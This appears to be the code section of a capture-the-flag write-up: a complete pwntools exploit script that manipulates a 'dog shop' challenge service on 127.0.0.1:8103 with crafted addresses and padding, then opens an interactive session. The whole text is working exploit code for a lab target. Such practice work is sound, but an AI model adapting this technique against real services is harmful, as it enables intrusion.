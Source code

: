 ### Full exploit code

```python
#!/home/gg/.ctf/bin/python3
from tools.utils import *

from pwn import *


context.log_level = 'INFO'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'x86_64'

HOST, PORT = '127.0.0.1 8103'.split(' ')

def buy_dog(data = None):
    global p
    p.sendlineafter(b'>', b'2')
    print(p.recvline())
    if not data:
        p.sendlineafter(b'>', b'n')
        print(p.recvline())
    else:
        p.sendlineafter(b'>', b'y')
        p.sendline(data)

def sell_dog(addr):
    global p
    p.sendlineafter(b'>', b'3')
    print(p.recvline())
    p.sendlineafter(b'>', addr)
    print(p.recvline())

if __name__ == '__main__':
    global p
    p = remote(HOST, PORT)

    sell_dog(b'\x00\x41\x20')   # 0x105000
    sell_dog(b'\x00\x41\x40')   # 0x106000
    sell_dog(b'\x00\x41\x60')   # 0x107000
    sell_dog(b'\x00\x42\x20')   # 0x109000
    sell_dog(b'\x00\x42\x40')   # 0x10a000
    sell_dog(b'\x00\x42\x60')   # 0x10b000
    for i in range(0x100):
        buy_dog()
    
    width = len('@                                                           ')
    buy_dog(b'*'*width * 5 + b'z')

    for j in range(5):
        for i in range(width):
            p.sendlineafter(b'>', b'd')    
        p.sendlineafter(b'>', b's')
    p.interactive()
```